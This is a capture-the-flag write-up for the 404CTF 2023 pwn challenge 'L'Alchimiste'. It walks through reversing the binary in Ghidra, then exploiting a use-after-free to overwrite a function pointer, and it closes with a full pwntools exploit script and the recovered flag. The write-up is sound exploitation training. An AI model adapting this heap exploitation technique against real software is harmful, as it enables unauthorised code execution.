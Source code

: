 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | L'Alchimiste
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, BoF, Use After Free]
permalink: /CTFs/404CTF_2023/Pwn/L_Alchimiste
---
```


# L'Alchimiste

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/06a3eb5c-571f-41f9-93c9-5b7d9914e6df)

For this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Reverse/l_alchimiste) executable. We can open it on Ghidra and/or run it to understand how it works.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/94c5dae2-5430-47cc-b15f-062c27f5f2d4)


## Recognition

As we can see, we have multiple options. I first tried to buy a strength potion and to use it multiple time:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c07af379-31f3-4391-aded-708134021734)

As we can see, we have a double free error. This is because, when we use the strength potion, we call the `useItem` function that does the following:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/353f2dfe-6e0a-4cee-b309-1f5092735677)

As we can see, we free the memory at the location of `param_1+0x10`. If we look at the character creation, we can see that it is the address of the function located after the initial parameter:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/90bd0a23-ad3d-48b4-998e-411d2423819a)

> `param1` is the strength, `param2` is the intelligence and param3 is the gold.
{: .prompt-info}

To better understand why this is a function, we can look at the `buyStrUpPotion` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/02b7b3ce-76c8-4099-a7db-67c2d2230dde)

## Increase Strength

As we can see, we set `puVar1` some values and the last value of `puVar1` is the function `incStr` that increase the strength by 10. We can also notice that the function `incStr` is set even if we don't have enough money to buy the strength potion. So we can use repeatedly the option `1` to buy the potion and then use the option with the option `2`. This will allow us to get any amount of strength we want:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/feec0b73-d79f-4137-8ab6-4a30915e84e1)

As we can see, we now have 230 of strength. Let's have a look at how to get the flag... This is what we are here fore XD:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f90e8daa-a620-422c-b01b-69974267ee73)

## How to get the flag

As we cans see, we need `*param_1 >= 0x96` and `param[1] >= 0x96` where `0x96` is equal to `150` in decimal and those parameters are the strength and the intelligence as we saw earlier.

> Note that `*param` <=> `param_1[0]`.
{: .prompt-info}

We have solved the problem of the strength, but what about the intelligence??? There is no function in the program that calls the `incInt` to do the same thing as for the strength...

## Increase Intelligence

After a bit of digging, I found something called `use after free`. As we saw earlier, the memory is free when we call the `useItem` function, but the memory is not set as null before. This is great, at least for us XD.

We now can try to override the address of the function `incStr` with the address of `incInt` after the free of the `useItem`. If we manage to do so, the address of `incInt` will be at the same memory location than the previous `incStr`. Then the call of `useItem` will think that it is calling the `incStr` but it will be calling `incInt`.

Let's see how to this now. For that we need to head back to the `buyStrPotion`. This function will set the address of the `incStr` function int `puVar1[8]` but if we look at the assembly code, we can see that it is at the position `+0x40`.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/2f3380e8-8b75-40c1-b80f-56535e608d66)

We can then try to override the first `64` (`0x40`) characters and then put the address of `incInt` that can be found in Ghidra. But for this to work, we need to call the option `3` that will do a malloc on the same memory location that was previously free with option `2`. 


## POC

The final code I used is the following:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("./l_alchimiste")
HOST, PORT = "challenges.404ctf.fr", 30944 
io = remote(HOST, PORT)

def getStrength():
	io.recvuntil(">>> ")
	io.sendline("2")
	io.recvuntil(">>> ")
	io.sendline("1")

def checkStrength():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"FOR: 160" in text:
		return 1
	else:
		return 0

def setInteligence():
	io.recvuntil(">>> ")
	io.sendline("2")

	io.recvuntil(">>> ")
	io.sendline("3")
	io.recvuntil("[Vous] : ")
	io.sendline(b"a"*0x40+p64(0x004008d5))

	io.recvuntil(">>> ")
	io.sendline("1")

def checkInteligence():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"INT: 160" in text:
		return 1
	else:
		return 0

io.recvuntil(">>> ")
io.sendline("1")
okStr = 0
while okStr != 1:
	getStrength()
	okStr = checkStrength()

okInt = 0 
while okInt != 1:
	okInt = checkInteligence()
	setInteligence()
io.recvuntil(">>> ")
io.sendline("5")
print(io.recvline().decode())
print(io.recvline().decode())
print("Flag: ", io.recvline().decode())
```

If we run it locally, we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f1ef2eed-9294-4934-ad80-88cd4a81f5cc)

As we can see, we get the test flag we created. We can now run it on the remote host and get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dd33e70d-8bae-4e3b-b5cf-7991f7eb2607)


The flag is `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`

